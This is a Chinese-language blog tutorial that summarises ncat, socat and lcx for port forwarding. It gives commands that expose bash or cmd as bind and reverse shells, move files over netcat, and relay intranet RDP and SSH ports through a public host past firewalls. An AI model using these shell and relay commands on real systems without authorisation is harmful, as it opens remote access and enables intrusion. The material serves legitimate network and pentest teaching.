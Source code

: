 ```yaml
---
date: "2017-07-31T00:00:00Z"
description: 介绍几款端口转发工具
title: 端口转发工具小结
url: /archivers/2017-07-31/1
---
```

介绍几款端口转发工具
<!--more-->
* 目录
{:toc}

## 0X00 ncat

### 反弹shell

服务器：`ncat -lnv -c bash 4489`  将bash转发到4489端口

客户端：`ncat -nv 172.17.0.1 4489` 连接到目标的4489即可获得交互式bash

Windows下用 `-c C:\windows\system32\cmd.exe`

参数介绍：

|`-l,--listen <port>` | 监听某个端口
| `-n, --nodns`　     |不通过DNS解析主机名
| `-v,--verbose`      |设置的详细程度(可以使用几次)
| `-c,--sh-exec`      | 执行传递的命令行

### 建立聊天室

服务端：`ncat -lnv --broker --chat 8432`

客户端：`ncat -nv 172.17.0.1 8432`

参数介绍：

| `--broker` | 使用ncat的代理连接模式，允许多个组织连接到ncat的服务器和其他人交流，ncat能创建一个经纪人在连接和系统之间通过NAT或者其他的直接连接。这个选项是和监听模式一起使用的。这会使监听端口的经纪人模式启动
| `--chat`   |　开启一个简单的ncat聊天服务器

### 采用SSL加密

* 服务器：`ncat -lnv -c bash 4489 --ssl`
* 客户端：`ncat -nv 172.17.0.1 4489 --ssl`

### 传输文件

服务端：
```
root@Kali:~$ ncat -lnv 1788 > tmp.txt
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::1788
Ncat: Listening on 0.0.0.0:1788
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:48004.
```

客户端：
```
root@504d96ae69cc:/docker_files# cat tmp.txt 
hello :)
root@504d96ae69cc:/docker_files# ncat -nv 172.17.0.1 1788 < tmp.txt 
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 172.17.0.1:1788.
Ncat: 9 bytes sent, 0 bytes received in 0.01 seconds.
root@504d96ae69cc:/docker_files# 
```


### 参数列表(中文)

[ncat参数](/tools/ncat.txt)

## 0x01 socat

### 安装

```bash
wget http://www.dest-unreach.org/socat/download/socat-2.0.0-b9.tar.gz
tar xvf socat-2.0.0-b9.tar.gz
cd socat-2.0.0-b9
./configure
make
make install
```


### 建立通信(聊天室)

| 服务端 | `socat - tcp4-listen:4444`
| 客户端 | `socat tcp:SERVER_IP:4444`

### 传输文件

| 服务端 | `socat tcp4-listen:4444 open:data.txt,creat,append` |
| 客户端 | `cat test.txt | socat - tcp:SERVER_IP:4444` |

> 传输二进制文件需要将append改成binary

### 反弹Shell

| 服务端 | `socat tcp-l:4444 exec:sh,pty,stderr`
| 客户端 | `socat - tcp:SERVER_IP:4444`
| tcp-l 是 `tcp4-listen` 的简写

### 端口转发

`socat - tcp-l:8888,fork tcp4:192.168.3.1:4477`

当本机接收到8888端口的数据，将全部转发给192.168.3.1主机上的4477端口

### UDP通信

| 服务端 | `socat - udp-l:4456` |
| 客户端 | `socat - udp-datagram:192.168.3.1:4456`
| 

### 公网转发到内网

| 服务端 | `socat tcp-listen:1234 tcp-listen:22` | 外网IP(`60.*.*.*`)
| 客户端 | `socat tcp:60.*.*.*:1234 tcp:192.168.3.1:22` | 内网IP(192.168.3.1)

### 内网转发到公网

```
                  ------------
                 |   Server   |
                 |  60.*.*.*  |
                  ------------
                 /            \
          {|<Firewall>|}    {|<Firewall>|}
                |                 |
          --------------      ----------------        
         | (192.168.3.1)|     | (192.168.3.2) |
          --------------      ----------------
       (hosting a service    (wanting to access
         on port 4200)         Client A port 4200)
```

| 服务端 | `socat - tcp-l:10000 tcp-l:4200`
| 客户端 | `socat tcp4:60.*.*.*:10000 tcp4:localhost:4200`

### 参考文档

[socat使用手册](/tools/socat)

## 0x02 lcx（go语言编写）

被控端192.168.10.2 ：

lcx <公网IP> 123

控制端 111.111.111.111：

lcx 456 123 192.168.10.2 3389

此时访问111.111.111.111的456就等于192.168.10.2:3389

[Download](http://www.secpulse.com/wp-content/uploads/2015/05/lcx._g.rar)
[相关文章](https://www.secpulse.com/archives/6341.html)




